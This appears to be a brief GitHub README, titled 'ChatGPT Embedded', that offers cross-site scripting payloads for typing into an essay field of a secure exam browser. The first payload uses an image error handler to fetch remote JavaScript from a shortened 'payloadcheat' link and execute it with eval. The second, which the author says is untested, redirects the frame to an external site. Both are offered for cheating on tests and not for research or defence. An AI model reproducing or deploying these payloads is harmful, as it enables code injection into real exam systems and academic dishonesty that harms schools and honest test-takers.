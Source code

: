 # ChatGPT Embedded
This can be used for xss in secure test browser just type this into essay question (good luck memorizing it)
```
<img src=# onerror='fetch("https://tinyurl.com/payloadcheat").then(r => r.text()).then(eval);'>
```


Or Shorter but havent test it yet
```
<img src=x onerror=frameElement.src='https://joaawd.github.io/p/'>  
```


<div></div>
<div></div>
<div></div>
<div></div>
<div></div>
<div></div><div></div>
<div></div>
<div></div>
<div></div>
<div></div>
<div></div>
<div></div><div></div>
 # I DIDNT DEVELOP THE CODE I ADDED TO IT AND YEAH, I JUST MADE THE HTML 
